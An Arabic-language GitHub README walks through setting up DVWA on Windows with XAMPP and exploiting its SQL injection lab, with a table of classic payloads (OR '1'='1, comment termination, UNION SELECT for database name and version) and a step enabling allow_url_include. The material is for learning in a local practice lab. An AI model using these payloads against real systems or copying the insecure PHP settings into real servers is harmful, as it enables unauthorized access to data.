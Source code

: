 <div dir="rtl" markdown="1">
# دليل عملي لاستغلال ثغرة **SQL Injection** في DVWA على **ويندوز**

مرحبًا! هذا المستودع يشرح خطوة بخطوة كيفية استغلال ثغرة **حقن SQL** في تطبيق **DVWA** (Damn Vulnerable Web Application) على نظام **Windows**.

---

## 📋 محتويات المستودع

1. [المتطلبات الأساسية](#المتطلبات-الأساسية)
2. [التثبيت والإعداد](#التثبيت-والإعداد)
3. [تجربة الثغرة](#تجربة-الثغرة)
4. [أمثلة Payloads](#أمثلة-payloads)
5. [المراجع](#المراجع)
6. [الرخصة](#الرخصة)

---

## المتطلبات الأساسية

- **نظام التشغيل:** Windows (7/8/10/11)
- **بيئة XAMPP:** Apache + PHP + MySQL
- **مجلد DVWA:** `C:\xampp\htdocs\dvwa`
- **متصفح:** Chrome أو Firefox

---

## التثبيت والإعداد

1. **تحميل XAMPP**
   - نزّل من: https://www.apachefriends.org
   - ثبّت Apache و PHP و MySQL.

2. **إحضار DVWA**
   - افتح PowerShell أو CMD ونفّذ:
     ```bash
     git clone https://github.com/digininja/DVWA.git C:\xampp\htdocs\dvwa
     ```
   - أو فك ضغط ملف ZIP داخل المجلد أعلاه.

3. **ضبط إعدادات PHP**
   - افتح `C:\xampp\php\php.ini` وابحث عن:
     ```ini
     magic_quotes_gpc = Off
     allow_url_include = On
     ```
   - ثم أعد تشغيل خدمة Apache من لوحة XAMPP.

4. **إعداد قاعدة البيانات**
   - شغّل MySQL من لوحة XAMPP.
   - افتح المتصفح وانتقل إلى:
     ```
     http://localhost/phpmyadmin
     ```
   - أنشئ قاعدة بيانات جديدة باسم: `dvwa`

5. **تهيئة DVWA**
   - انسخ الملف `config.inc.php.dist` في المجلد `C:\xampp\htdocs\dvwa\config` وأعد تسميته إلى `config.inc.php`.
   - حرّر `config.inc.php` واجعل:
     ```php
     $_DVWA['db_user']     = 'root';
     $_DVWA['db_password'] = '';
     ```
   - افتح:
     ```
     http://localhost/dvwa/setup.php
     ```
   - اضغط **Create / Reset Database**
   - سجّل الدخول:
     - المستخدم: `admin`
     - كلمة المرور: `password`

---

## تجربة الثغرة

1. من القائمة الجانبية اختر **SQL Injection**
2. تأكد أن مستوى الأمان **Low**
3. في حقل **User ID** أدخل:
   ```sql
   1' OR '1'='1
   ```
4. اضغط **Submit** لتحصل على جميع سجلات المستخدمين.

---

## أمثلة Payloads

| الهدف                       | Payload                                           |
| --------------------------- | ------------------------------------------------- |
| عرض كل المستخدمين           | `1' OR '1'='1`                                    |
| تعليق باقي الاستعلام       | `1'; --`                                          |
| جلب اسم القاعدة والإصدار    | `0' UNION SELECT null, database(), version() --`  |

---

## المراجع

- **DVWA GitHub:** https://github.com/digininja/DVWA  
- **PHP SQL Injection:** https://www.php.net/manual/en/security.sql-injection.php

---

## الرخصة

هذا المستند مرخص بموجب **MIT License**.  
© 2025  Bashar Naanah
</div>
